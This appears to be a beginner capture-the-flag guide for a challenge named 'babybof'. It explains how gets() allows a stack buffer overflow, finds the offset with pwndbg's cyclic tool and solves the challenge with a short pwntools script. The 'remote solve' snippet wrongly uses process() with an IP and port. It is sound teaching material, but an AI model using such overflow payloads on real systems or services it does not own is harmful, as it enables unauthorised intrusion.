 # Challenge Name
babybof

## Learning Objective
Understand:
1. segmentation fault
2. buffer overflow
3. `gets` vulnerability

## Description 
Master this and further concepts will be easy.

## Difficulty:
Guided (Easy)

## Guide
Let's look at the source code:

In `main`:

```c
    // runs sigsegv_trigger() when a segmentation fault occurs
    signal(SIGSEGV, sigsegv_trigger);
```

From the code comment, we need to trigger a **segmentation fault** to run `sigsegv_trigger` function.

In `sigsegv_trigger`:

```c
    printf("Here is your flag: \n");
    FILE *file = fopen("flag.txt", "r");
    char flag[256];
    fgets(flag, 256, file);
    printf("%s", flag);
    fclose(file);
```

This function will give us our flag. How do we start?

### `gets` vulnerability

In `vuln`:

```c
    // vulnerable c function
    gets(buffer);
```

One of the most common C vulnerabilities. This function does not perform boundary checking, which means it will accept user input even if it is beyond allocated size.

### Buffer overflow

To put it simply, let's say a basket can hold 10 apples at maxmimum. But if I were to try and put 20 apples, some of these apples will overflow. You would then need to use another basket.

In programs, excess bytes will overflow into other values/addresses on the stack memory. 

### What is Segmentation Fault? How does it happen?

This is an error that occurs when a program attempts to access memory that is **not permitted to the user**. 



For example: reading/writing outside given boundaries (aka Buffer overflow).

There are 2 important addresses in a stack frame that is **not permitted** to us:
1. saved base pointer (RBP) address
2. return address

**HOWEVER**, it is important to note that if you overwrite the addresses with a existing/valid address in the binary, it will continue running but with the overwritten address.

Let's try to overflow the **base pointer address** since it is always closer to the buffer.


### Find number of bytes to overflow base pointer address

1. Open program with pwndbg
```shell
$> gdb chall
```

2. Generate the cyclic pattern of 100 bytes (or any number big enough to cause a segmentation fault) & copy the output
```shell
pwndbg> cyclic 100
aaaaaaaabaaaaaaacaaaa...
```

3. Run the program and paste when prompted
```shell
pwndbg> run
``` 

You should be able to observe this in the registers:
```shell
 RBP  0x6161616161616165 ('eaaaaaaa')
 RSP  0x7fffffffdc48 ◂— 'faaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa'
```

This was from our cyclic pattern. This pattern helps us to identify how many bytes we need **before** it goes into whichever part of the stack we want.

In 64-bit programs, after the `RBP` is overflowed, the remaining will go into the `RSP` register.

So in this case,`faaaaaaa` will point to us how many bytes we need to **completely** overwrite saved RBP address.

Let's identify how many bytes we need with the following command below:
```shell
pwndbg> cyclic -l faaaaaaa
Finding cyclic pattern of 8 bytes: b'faaaaaaa' (hex: 0x6661616161616161)
Found at offset 40
```

### Manual Exploit 
Let's put 40 bytes of input (in this case I will put 40 `A`s) into the program, let's see what happens
```shell
$> ./chall
Hello World!
Enter some text: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
You entered: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation Fault!
Here is your flag: 
CTF{PLACEHOLDER} 
```

We got the flag!

### Script solve
In furher exercises, we will be using python script to solve. This is where `pwntools` will come in.

1. Import the library
```python
from pwn import *
```

2. Depending on whether you want to solve locally or remotely, add either of the following:
```python
# local solve
p = process("./chall")

# remote solve
p = process("IP", PORT)
```

3. Since we want to send 40 `A`s:
```python
payload = b'A' * 40
p.sendline(payload)
```

4. Interact with the service
```python
p.interactive()
```

When we put all that together u should get this:
```python
from pwn import *

# setup process
p = remote("ip", port)

# payload 
payload = b'A' * 40

# send payload
p.sendline(payload)
p.interactive()
```

Run in your terminal to solve:
```shell
$> python3 script.py
```

## Solution
Refer to solve.py.

## Hints
1. What causes segmentation fault? 
2. Have you considered saved RBP address?

## Attached Files
- chall.c
- chall

## Resources
- http://ctf101.org

## Flag
TBD
